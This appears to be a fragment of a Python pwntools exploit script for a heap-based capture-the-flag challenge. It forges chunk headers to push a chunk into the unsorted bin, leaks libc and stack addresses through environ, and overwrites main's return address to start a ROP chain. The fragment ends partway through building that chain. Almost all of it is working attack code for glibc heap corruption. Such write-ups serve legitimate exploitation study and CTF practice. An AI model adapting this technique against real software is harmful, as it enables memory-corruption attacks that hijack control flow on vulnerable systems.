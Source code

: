 ``` python

    # align top chunk; nextchunk of 0x420 chunk should not be top chunk
    edit(s, 'u', [0, 2, 3], 'a', 0x10)
    edit(s, 'u', [0, 2, 3, 0], 'a', 0x10)
    edit(s, 'u', [0, 2, 3, 1], 'a', 0x10)
    edit(s, 'u', [0, 2, 3, 2], 'a', 0x5)
    edit(s, 'u', [0, 2, 3, 3], 'a', 0x1)        # next_chunk

    # overwrite chunk_size of [0, 2, 2] ("CCCC")
    payload = b"A" * 0x10
    payload += p64(0) + p64(0x51)
    payload += b"\x00" * 0x40
    payload += p64(0) + p64(0x21)
    payload += b"B" * 0x10
    payload += p64(0) + p64(0x51)
    payload += b"\x00" * 0x40
    payload += p64(0) + p64(0x21)
    payload += p64(0x10) + p64(heap + 0x600)    # set [0, 2, 1]->content to [0, 2, 2]
    payload += p64(0) + p64(0x21)
    payload += b"C" * 0x10
    payload += p64(0) + p64(0x51)
    payload += b"\x00" * 0x40
    payload += p64(0) + p64(0x421)
    edit(s, 'u', [0, 2, 0], 'e', payload)

    # move [0, 2, 2] ("CCCC") to unsorted bin
    edit(s, 'd', [0, 2, 2])
    
    # libc leak
    s.sendline(b"1")
    s.sendlineafter(b"index: ", b"0")
    s.sendlineafter(b"> ", b"1")
    s.sendlineafter(b"index: ", b"2")
    s.sendlineafter(b"> ", b"1")
    r = s.sendlineafter(b"index: ", b"10")      # invalid index to return menu

    libc = u64(r.split(b"<S> ")[2].split(b"\n")[0] + b"\x00\x00") - 0x21ace0
    log.info(f"libc : {hex(libc)}")

    # arbitrary read (environ)
    payload = b"A" * 0xe0
    payload += p64(0x10) + p64(libc + lib.symbols['environ'])
    edit(s, 'u', [0, 2, 0], 'e', payload)
    
    # stack leak
    s.sendline(b"1")
    s.sendlineafter(b"index: ", b"0")
    s.sendlineafter(b"> ", b"1")
    s.sendlineafter(b"index: ", b"2")
    s.sendlineafter(b"> ", b"1")
    r = s.sendlineafter(b"index: ", b"10")

    stack = u64(r.split(b"<S> ")[2].split(b"\n")[0] + b"\x00\x00")
    log.info(f"stack : {hex(stack)}")
    ret = stack - 0x120

    # arbitrary write (ret of main)
    payload = b"B" * 0xe0
    payload += p64(0x20) + p64(ret)
    edit(s, 'u', [0, 2, 0], 'e', payload)

    pop_rdi_rbp = 0x2a745
    payload = p64(libc + pop_rdi_rbp)
```